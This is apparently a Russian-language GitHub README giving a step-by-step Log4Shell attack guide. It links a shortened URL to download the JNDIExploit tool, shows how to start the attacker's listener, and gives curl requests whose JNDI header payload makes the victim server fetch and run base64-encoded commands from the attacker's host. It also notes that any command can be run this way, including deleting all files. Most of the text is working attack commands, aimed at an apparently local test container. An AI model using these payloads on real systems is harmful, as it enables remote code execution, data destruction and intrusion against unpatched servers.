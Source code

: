 # alex_programms
новая уязвимость log4shell

Скачивание эксплоита:

Переходим по ссылке:
https://bit.ly/3E4kxuk

И ждём скачивание файла(если ссылка не открылась,используйте vpn.
Это ссылка на сайт,делающий слепки других сайтов,который успел сохранить ссылку на архив старого репозитория гит хаба (его удалили)

Установка эксплоита:
Переходим в папку загрузок и распаковываем архив:

unzip JNDIExploit.v1.2.zip

Далее вводим эту команду для прослушки 1389 и 8888 портов:

java -jar JNDIExploit-1.2-SNAPSHOT.jar -i LOCAL_IP -p 8888 
Где LOCAL_IP - IP-адрес атакующего.


Атака на сервер:
Итак, у нас есть уязвимый сервер и эксплоит для него. Теперь вводим эту команду:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LOCAL_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
Где 127.0.0.1:8080 - IP жертвы (сервера), а LOCAL_IP - IP-адрес атакующего.

Эта команда отправляет запрос на сервер для удалённого выполнения команды в виде base64. Где "dG91Y2ggL3RtcC9wd25lZAo=" - и есть команда. При расшифровке можно понять, что она делает:


Команда создаёт файл по пути /tmp с названием pwned. После её выполнения в терминале отобразится текст "Hello, world!".


Чтобы проверить, выполнена ли команда на сервере, проверяем на нём файлы:

docker exec vulnerable-app ls /tmp
Должен отобразится файл pwned.


Вместо команды, показанной в примере, можно выполнить любую другую. Например перезапуск сервера, запуск другого эксплоита, удаление всех файлов и тд. 

Предположим у нас стоит задача теперь удалить файл pwned, который мы создали. Для этого будет такая команда:

cd /tmp && rm pwned 
Чтобы её запустить на атакуемом сервере, нужно открыть какой-нибудь base64 декодер и зашифровать её:


Копируем результат и вставляем в эту команду:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LOCAL_IP:1389/Basic/Command/Base64/Base64_code}'
Где 

127.0.0.1:8080 - IP жертвы (сервера), 

LOCAL_IP - IP-адрес атакующего, 

а Base64_code - скопированный раннее результат (сюда и нужно вставить результат).



У меня получилась такая команда:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.2.15:1389/Basic/Command/Base64/Y2QgL3RtcCAmJiBybSBwd25lZCA=}'
    
